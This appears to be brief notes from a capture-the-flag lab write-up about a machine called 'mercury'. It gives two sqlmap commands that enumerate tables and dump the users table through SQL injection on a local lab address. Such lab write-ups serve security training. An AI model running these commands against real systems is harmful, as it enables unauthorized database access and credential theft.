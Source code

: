 # sqlmap
We found out in the http 8080 of the mercury machine had the /mercuryfacts directory and the /mercuryfacts/todo
directory which had mentioned about changing from direct mysql call to django for better security.  
- sqlmap -u "http://192.168.56.102:8080/mercuryfacts/1" --tables --batch  
(add screenshot)  

Then all we had to do was perform sql injection and ask what we needed.  
I found out that there were 2 databases and dumbped the database data.  
- sqlmap -u "http://192.168.56.102:8080/mercuryfacts/1" -D mercury -T users --dump --batch  
(add screenshots)


